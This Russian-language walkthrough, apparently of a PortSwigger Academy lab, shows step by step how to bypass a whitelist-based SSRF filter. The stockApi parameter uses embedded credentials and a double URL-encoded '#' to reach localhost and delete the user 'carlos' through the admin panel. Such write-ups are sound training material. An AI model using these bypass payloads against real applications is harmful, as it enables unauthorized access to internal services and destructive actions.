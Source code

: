 Перейдем на админскую панель, добавив `/admin` в исходный url, и увидим, что у нас недостаточно прав 
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/1.png)
Далее вернемся на исходную страницу, выберем случайный товар и по кнопке `Get stock` найдем его количество на складе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/2.png)

Перейдем в `Proxy` -> `HTTP history` и найдем данный запрос 
```
POST /product/stock
...
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D2
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/3.png)
Далее изменим параметр `stockApi` на `127.0.0.1`
```
POST /product/stock
...
stockApi=http://127.0.0.1
```
на что получим ответ `"External stock check host must be stock.weliketoshop.net"`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/4.png)
Предположим, что разработчики завайтлистили домен, с которого можно делать запросы. Используем предлагаемый домен
`stockApi=http://username@stock.weliketoshop.net/`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/5.png)
добавим `#` в `stockApi`
```
stockApi=http://username#@stock.weliketoshop.net
```
и получим уже знакомую запись - "External stock check host must be stock.weliketoshop.net"
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/6.png)
Применим двойную URL кодировку, чтобы веб-приложение съело #
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/7.png)
```
POST /product/stock
...
stockApi=http://username%25%32%33@stock.weliketoshop.net
```
Отлично, выдало `internal server error`, значит мы на верном пути
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/8.png)
перейдем на локалхост в надежде, что нас пропустит
```
POST /product/stock
...
stockApi=http://localhost%25%32%33@stock.weliketoshop.net
```
отлично, мы снова получили нашу исходную страницу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/9.png)
Далее перейдем на админскую панель и удалим УЗ `carlos` и нажав `Follow redirection` получим уведомление об успешно выполненной лабораторной работе
```
POST /product/stock
...
stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/4.%20SSRF%20with%20whitelist-based%20input%20filter/pics%20for%20walktrough/10.png)
